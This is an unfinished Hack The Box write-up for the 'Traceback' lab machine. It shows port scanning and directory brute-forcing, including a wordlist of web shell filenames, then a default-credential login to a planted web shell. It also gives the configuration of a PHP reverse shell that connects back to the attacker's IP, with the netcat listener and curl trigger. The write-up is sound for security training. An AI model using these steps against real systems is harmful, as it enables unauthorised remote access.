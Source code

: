 ## WORK IN PROGRESS

![traceback](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/Traceback/Screenshots/traceback.jpg)

## Enumeration
\
Start with a detailed nmap scan:

\
```
nmap -sC -sV -Pn -p- 10.10.10.181

Starting Nmap 7.70 ( https://nmap.org ) at 2020-03-14 16:57 EDT
Nmap scan report for 10.10.10.181
Host is up (0.047s latency).
Not shown: 65533 closed ports
PORT   STATE    SERVICE VERSION
22/tcp open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp filtered http
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/$
Nmap done: 1 IP address (1 host up) scanned in 74.85 seconds
</div>
```
\
Lets check out the webserver in a browser:
\
```
http://10.10.10.181/
```
![webserver](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/Traceback/Screenshots/webserver.JPG)

The webserver landing page states there is a backdoor somewhere.  Let's enumerate further with gobuster:

```
gobuster -w /usr/share/wordlists/dirb/common.txt -t 30 -x html,asp,php -u http://10.10.10.181:80 -o gobuster_10.10.10.181_80.txt

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.181:80/
[+] Threads      : 30
[+] Wordlist     : /usr/share/wordlists/dirb/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : asp,php,html
[+] Timeout      : 10s
=====================================================
2020/03/14 17:00:26 Starting gobuster
=====================================================
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.asp (Status: 403)
/.hta (Status: 403)
/.hta.html (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.asp (Status: 403)
/.htpasswd.php (Status: 403)
/.hta.asp (Status: 403)
/.hta.php (Status: 403)
/index.html (Status: 200)
/index.html (Status: 200)
/server-status (Status: 403)
=====================================================
2020/03/14 17:00:54 Finished
=====================================================
```

Nothing Interesting here.  Lets try nikto:

```
nikto -h 10.10.10.181:80


- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.181
+ Target Hostname:    10.10.10.181
+ Target Port:        80
+ Start Time:         2020-03-14 17:01:06 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 459, size: 5911796d5b788, mtime: gzip
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: OPTIONS, HEAD, GET, POST
+ OSVDB-3233: /icons/README: Apache default file found.
+ ERROR: Error limit (20) reached for host, giving up. Last error: error reading HTTP response
+ Scan terminated:  17 error(s) and 7 item(s) reported on remote host
+ End Time:           2020-03-14 17:14:14 (GMT-4) (788 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Again nothing very interesting.  Lets dig into the landing page.  It looks like the page was created by someone with the handle Xh4H.  I did some googling and found the users Github page with a list of webshells he likes to use:

```
https://github.com/Xh4H/Web-Shells
```
![webshells](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/Traceback/Screenshots/webshells.JPG)

I then combined these into a wordlist to be used with gobuster:
```
root@an0nym0us3:~/HTB/Traceback# cat webshell_list 
alfa3.php
alfav3.0.1.php
andela.php
bloodsecv4.php
by.php
c99ud.php
cmd.php
configkillerionkros.php
jspshell.jsp
mini.php
obfuscated-punknopass.php
punk-nopass.php
punkholic.php
r57.php
smevk.php
wso2.8.5.php
```

Now run gobuster against the webserver using the new wordlist:
```
gobuster -w webshell_list -t 30 -x html,asp,php -u http://10.10.10.181:80 -o gobuster_10.10.10.181_80.txt

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.181:80/
[+] Threads      : 30
        [+] Wordlist     : webshell_list
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : asp,php,html
[+] Timeout      : 10s
=====================================================
2020/03/15 22:31:33 Starting gobuster
=====================================================
/smevk.php (Status: 200)
=====================================================
2020/03/15 22:31:38 Finished
=====================================================
```

Looks like there is a page using one of the web shells.  Lets naviagte to it in the web browser:
```
http://10.10.10.181/smevk.php
```
![smevk](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/Traceback/Screenshots/smevk.JPG)

I tried the credentials admin:admin and was able to login:

![portal](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/Traceback/Screenshots/portal.JPG)

## Exploitation

Looks like we can upload a reverse php shell to this location.  


Lets upload the [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) from pentestmonkey to the webserver after we change the ip address and port to our attacking machine:

```
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.15.224';  // CHANGE THIS
$port = 12345;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

Now that our reverse shell is on the server, let set up a netcat listener to catch a reverse shell:

```
nc -nlvp 12345
```

Now execute the reverse shell using curl:
```
curl http://10.10.10.181/php-reverse-shell.php
```

And we get a reverse shell as the user webadmin:
```
root@an0nym0us3:~/HTB/Traceback# nc -nlvp 12345
listening on [any] 12345 ...
connect to [10.10.14.146] from (UNKNOWN) [10.10.10.181] 40458
Linux traceback 4.15.0-58-generic #64-Ubuntu SMP Tue Aug 6 11:12:41 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 18:01:58 up 2 min,  0 users,  load average: 0.43, 0.24, 0.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
/bin/sh: 0: can't access tty; job control turned off
```
First lets get an interactive bash shell:
```
$ bash -i
bash: cannot set terminal process group (521): Inappropriate ioctl for device
bash: no job control in this shell
webadmin@traceback:/$
```

Lets see what other users are on the machine:
```
webadmin@traceback:/home$ ls -la
ls -la
total 16
drwxr-xr-x  4 root     root     4096 Aug 25  2019 .
drwxr-xr-x 22 root     root     4096 Aug 25  2019 ..
drwxr-x---  5 sysadmin sysadmin 4096 Mar 16 03:53 sysadmin
drwxr-x---  5 webadmin sysadmin 4096 Mar 16 18:03 webadmin
```

Ok now lets see what is our home directory:
```
webadmin@traceback:/home/webadmin$ ls -la
ls -la
total 48
drwxr-x--- 5 webadmin sysadmin 4096 Mar 16 18:03 .
drwxr-xr-x 4 root     root     4096 Aug 25  2019 ..
-rw------- 1 webadmin webadmin  105 Mar 16 04:03 .bash_history
-rw-r--r-- 1 webadmin webadmin  220 Aug 23  2019 .bash_logout
-rw-r--r-- 1 webadmin webadmin 3771 Aug 23  2019 .bashrc
drwx------ 2 webadmin webadmin 4096 Aug 23  2019 .cache
drwxrwxr-x 3 webadmin webadmin 4096 Aug 24  2019 .local
-rw-rw-r-- 1 webadmin webadmin    1 Aug 25  2019 .luvit_history
-rw-r--r-- 1 webadmin webadmin  807 Aug 23  2019 .profile
drwxrwxr-x 2 webadmin webadmin 4096 Feb 27 06:29 .ssh
-rw-rw-r-- 1 sysadmin sysadmin  122 Mar 16 03:53 note.txt
```

No user.txt file.  Look at the note.txt:
```
cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```







